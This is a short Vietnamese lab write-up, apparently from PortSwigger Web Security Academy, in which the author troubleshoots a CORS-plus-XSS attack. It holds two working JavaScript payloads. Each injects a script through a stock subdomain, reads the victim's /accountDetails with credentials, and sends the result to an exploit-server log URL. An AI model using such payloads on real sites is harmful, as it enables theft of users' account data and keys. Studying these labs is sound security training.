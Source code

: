   Nhưng gửi không được, check lỗi :
  
  ![image](https://user-images.githubusercontent.com/104350480/225622382-1c9ca332-de6c-41a8-85d7-80ddfbd3887c.png)
  
  Ở đây có lỗi "" , ta cần mã hóa lại.

```  
  
    <script>
      document.location="https://stock.0a22007e03ab2b0bc6e85a25005d0020.web-security-academy.net/?productId=1<script>var req= new XMLHttpRequest();var url='https://0a22007e03ab2b0bc6e85a25005d0020.web-security-academy.net';req.onreadystatechange = function(){if (req.readyState == XMLHttpRequest.DONE){fetch('https://exploit-0a71005b038a2b56c64f594901da006e.exploit-server.net/exploit/log?key=' %2b req.responseText)};};req.open('GET', url %2b '/accountDetails', true);req.withCredentials = true;req.send(null);%3c/script>&storeId=1"
    </script>

   ```

Nhưng mà có vẻ thực thi đoạn trên vẫn bị lỗi, mình cũng chưa hiểu sai chỗ nào luôn, thực hiện vậy mà nó vẫn báo lỗi là kh có access-control-allow-origin. Mà thử 1 đoạn code tương tự lại được: 

  ```
      <script>
    document.location="http://stock.0a22007e03ab2b0bc6e85a25005d0020.web-security-academy.net/?productId=1<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a22007e03ab2b0bc6e85a25005d0020.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0a71005b038a2b56c64f594901da006e.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
        
        ````
 ![image](https://user-images.githubusercontent.com/104350480/225642481-c6914ca8-0a86-4f03-b110-4f17536907e2.png)
